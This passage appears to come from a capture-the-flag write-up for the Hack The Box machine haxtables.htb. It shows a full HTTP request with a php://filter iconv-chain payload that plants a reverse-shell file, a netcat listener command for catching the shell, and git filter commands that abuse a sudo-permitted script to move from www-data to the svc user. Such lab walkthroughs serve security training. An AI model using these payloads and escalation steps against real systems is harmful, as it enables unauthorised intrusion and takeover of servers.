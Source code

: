 ````
```
And put in the JSON parameter of uripath & your POST request would like this :::
````
POST /handler.php HTTP/1.1
Host: haxtables.htb
Content-Length: 10544
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept: */*
Origin: http://haxtables.htb
Referer: http://haxtables.htb/index.php?page=string
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

{"action":"str2hex","data":"lol","uri_path":"whatever@image.haxtables.htb/actions/action_handler.php?page=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921................................................................................|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp"}
````
<br>
Our request has been successfully executed and now our rev-shell payload ``haha`` is on the server 

![image](https://user-images.githubusercontent.com/114393219/219821774-b260bce8-9694-4616-a5d1-7f787cab6269.png)

## Reverse Shell

Start a Listner on your local machine using the command ``nc -lvnp 9001``
<br>
Now send request to ``http://haxtables.htb/haha`` . It will show that URL not found but don't worry , our file has been executed and we got a Reverse Shell .
![image](https://user-images.githubusercontent.com/114393219/219822042-f2b67617-948c-495b-b6c6-257cf7dac091.png)

![image](https://user-images.githubusercontent.com/114393219/219822168-1983cf33-b601-4332-afae-fecb3dbc3bd1.png)

## Lateral movement (www-data to svc)

It's important to look into our user's permissions once we have used a reverse shell to get access to the system. We can see that we have permissions to run the "git-commit.sh" script in the "/var/www/image/scripts" path by using the ``sudo -l`` command.

![image](https://user-images.githubusercontent.com/114393219/219822743-bcc2a691-3de7-4207-bc25-1db1925ceb07.png)


The 'git-commit.sh' script is used to manage files in a Git repository, as can be seen by looking at its source code. The next commit will include any files that have not yet been added to Git's tracker using the 'git add -A' command. A "commit" will be carried out with the predetermined message "Committed from API!" and the author provided in the "git commit command" if there are no unfollowed files. <br>

Create a reverse shell payload in ``/tmp`` directory and execute the following commands in ``/var/www/image/`` directory .
````
git init
echo '*.php filter=indent' > .git/info/attributes
git config filter.indent.clean /tmp/revshell
sudo -u svc /var/www/image/scripts/git-commit.sh
````

````